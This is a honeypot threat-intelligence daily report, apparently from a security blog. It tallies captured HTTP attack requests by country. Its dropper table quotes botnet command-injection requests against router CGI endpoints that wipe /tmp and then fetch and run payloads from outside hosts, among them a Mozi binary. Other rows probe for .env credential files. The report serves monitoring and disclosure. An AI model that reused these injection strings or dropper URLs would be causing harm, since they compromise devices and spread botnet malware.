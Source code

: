```yaml
---
title: "Report: 2025-07-25 "
date: 2025-07-25
desciption: "Report: 2025-07-25" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-25 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 19 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 504 requests were recorded during the day, originating from 5 different countries, with a peak of 139 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|------------------|--------------------|

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 122.96.48.166 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://102.33.10.178:37321/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 8.219.182.182 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 8.219.217.42  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 8.219.143.16  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 45.135.194.11 | GET /board.cgi?cmd=wget%20-qO-%20http%3A%2F%2F38.59.219.27%2Frondo.dcn.sh%7Csh%3B HTTP/1.0                                                                                   |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                        |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   8 |                     4 | GET /boaform/form_loid_burning HTTP/1.1                                                                                                                                                                                                                                                                                                        |
|  10 |                     3 | POST /boaform/admin/formPing HTTP/1.1                                                                                                                                                                                                                                                                                                          |
| 147 |                     1 | GET /releases/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 148 |                     1 | GET /test/.env.aws HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 151 |                     1 | GET /test/.env.old HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 152 |                     1 | GET /test/.env.crt HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 153 |                     1 | GET /stagingEnv.sh HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 155 |                     1 | GET /variables.env HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 156 |                     1 | GET /statisch/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 157 |                     1 | GET /upload/.env.1 HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 175 |                     1 | GET /server/.env.1 HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 176 |                     1 | GET /server/.env.2 HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 177 |                     1 | GET /spring/env.py HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 179 |                     1 | GET /previous/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 180 |                     1 | GET /tmp/.env.prod HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 182 |                     1 | GET /test/.env.log HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 188 |                     1 | GET /keys/env.json HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 189 |                     1 | GET /env/email.env HTTP/1.1                                                                                                                                                                                                                                                                                                                    |
| 248 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\x17f\xF7\x7F\x00\x00P\xF8\xD6\x9B\xC9\x00\x00\x00\xE0\x81<f\xF7\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   139 | GB                 |
|  1 |                   112 | TW                 |
|  2 |                    76 | US                 |
|  3 |                    31 | NL                 |
|  4 |                    29 | SG                 |
|  5 |                    23 | BG                 |
|  6 |                    20 | PL                 |
|  7 |                    18 | DE                 |
|  8 |                    13 | HK                 |
|  9 |                     9 | SC                 |
| 10 |                     6 | MU                 |
| 11 |                     3 | KZ                 |
| 12 |                     2 | IR                 |
| 13 |                     2 | PT                 |
| 14 |                     2 | CA                 |
| 15 |                     2 | AR                 |
| 16 |                     2 | RU                 |
| 17 |                     2 | BR                 |
| 18 |                     1 | ID                 |
| 19 |                     1 | ES                 |
| 20 |                     1 | BE                 |
| 21 |                     1 | CN                 |
| 22 |                     1 | KH                 |
| 23 |                     1 | KR                 |
| 24 |                     1 | RO                 |
| 25 |                     1 | IN                 |
| 26 |                     1 | JP                 |
| 27 |                     1 | SK                 |
| 28 |                     1 | BD                 |
| 29 |                     1 | FR                 |
| 30 |                     1 | ZA                 |
